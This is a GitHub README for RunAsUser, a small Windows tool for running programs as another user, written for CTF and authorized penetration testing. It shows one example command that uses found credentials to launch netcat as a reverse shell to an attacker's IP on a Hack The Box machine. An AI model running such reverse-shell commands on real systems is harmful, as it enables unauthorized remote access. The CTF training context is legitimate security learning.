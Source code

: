 # RunAsUser

**Advisory**
All the binaries/scripts/code of RunAsUser should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *

**Whats the purpose?**

RunAsUser was designed to make it easy to execute programs on Windows as another user. In CTF exercises you may come across credentials for another user. Unlike Linux there isn't the functionality to "su" to switch user.

There are ways to already do this with PowerShell. However I have found that in some CTF exercises you may be presented with limited or no PowerShell functionality. CMD also has the ability to execute programs as another user but again I have experienced problems trying to use that.

I have used this in a few boxes now and found it very useful. In fact, I made this application because I faced a very specific issue and other solutions wouldn't work.

It is a quick and dirty tool but does the job. I may come back to it and update it at some point.

**How to run**

So an example machine you can use this on is - HTB JSON.

Found the credentials for the admin user. I had issues trying to run a PowerShell terminal from what I remember, so I used this. I know I could have done this particular box lots of other ways but on other machines you may not be so fortunate and it was a good excuse to use this tool again.

First I uploaded RunAsUser.exe and then executed the below command.

```
RunAsUser.exe -u superadmin -p funnyhtb -f c:\users\public\nc.exe -a '10.10.14.12 9001 -e cmd.exe'
```

This command then executed `nc.exe` as the `superadmin` user and it connected back to my listener.

To view the help, simply run the tool with either `-h` or `--help`.

You may also just run the tool and you will be prompted at each step for the arguments you wish to supply.
